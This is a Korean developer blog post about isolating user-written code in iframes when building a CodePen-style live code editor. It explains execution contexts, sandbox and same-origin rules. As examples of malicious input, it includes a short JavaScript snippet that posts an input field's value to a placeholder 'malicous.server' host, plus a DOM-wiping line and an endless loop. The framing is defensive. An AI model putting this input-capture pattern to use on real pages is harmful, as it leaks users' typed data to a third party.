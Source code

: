 ```yaml
---
layout: single
title: "Typescript에서 React useRef 사용법"
categories: HTML
tag: [HTML, CodePen Project]
---
```


## 코드 에디터를 만들기 위한 iframe 디자인 패턴

#### 개발 목표

Code Pen이라는 사이트가 있다. - https://codepen.io/
해당 사이트와 같이 iframe을 사용하여 코드를 번들링하여 보여주는 사이트를 만들고자 한다.

<br>
#### 발생할 수 있는 문제점

Code Pen과 같은 실시간 코드 번들링 사이트를 만들면 아래와 같은 이슈 또는 문제점에 직면할 수 있다.

1. 코드 입력창에 오류를 발생시키는 문법이 잘못된 코드가 작성될 수 있다.

2. DOM을 조작하는 코드로 인해 예상하지 못한 현상이 발생할 수 있다.
   ex) document.body.innerHTML = '';
3. 악의적인 코드를 입력창에 넣을 수 있다.
   ex) document.querySelector('input).addEventListener('change', function => {
   axios.post('malicous.server', {
   value: event.target.value
   })})
   ex) for (var i = 0; i < 99999999999999999; i++) {
   console.log(i);
   }

<br>
#### 꼭 iframe을 사용해야 될까?

상기와 같은 문제점을 해결하기 위해서 iframe을 사용해야 한다. iframe은 일반적으로 child frame이며, 그외의 요소는 parent frame에 속한다. 중요한 것은 **JavaScript execution context가 parent/child frame 별로 각각 따로 존재하고 실행된다는 것이다**. 즉, iframe에서 에러가 발생해도 iframe의 execution context만 에러가 발생하고, React에는 execution context에는 영향을 주지 않는다. 만약, iframe 내부에서 Dom을 조작하여도 프레임 내부에서만 문제가 발생한다.

추가적으로 iframe에서 parent의 변수나 프로퍼티를 가져오고 싶으면 'parent' 문법을 사용하면 된다. parent에서 iframe(child)의 변수나 프로퍼티를 가져오고 싶으면 'document.querySelector('frame').contentWindow 문법을 사용하면 된다.

> iframe은 아래와 같은 특정한 조건에서만 parent/child가 서로 접근할 수 있다.
>
> > - iframe 요소가 'sandbox' 프로퍼티가 없는 경우
> > - sandbox의 프로퍼티가 존재하지만, 'sandbox="allow-same-origin"'인 경우
> > - parent/child의 HTML document가 같은 domain, port, protocol(http vs https)인 경우

#### iframe parent/child를 서로 접근하지 못하게 하는 이유

아쉽지만 iframe의 parent/child의 요소가 서로 직접 접근할 수 있게 만들면 많은 문제점이 발생할 수 있다. 예를들어, 악의적인 사용자가 iframe에 parent의 패스워드 input 요소를 가져와 eventListener를 사용하여 패스워드를 알아낼 수 있다. 또한, 특정 서버에 현재 사용자의 쿠키 정보를 보낼 수도 있을 것이다. 이러한 이유로 Code Pen 사이트에서도 parent/child 완전히 분리하여 통신이 진행되도록 설계 되었다.

아래는 Code Pen 사이트의 데이터 흐름을 정리한 것이다.
![codepen-flowchart](/assets/images/iframe/codepen-flowchart.png "Code Pen 사이트 디자인패턴")

Code Pen 사이트에서도 'codePen.io'은 parent, 'cdpn.io'은 child(iframe)와 통신을 하도록 설계되었다.
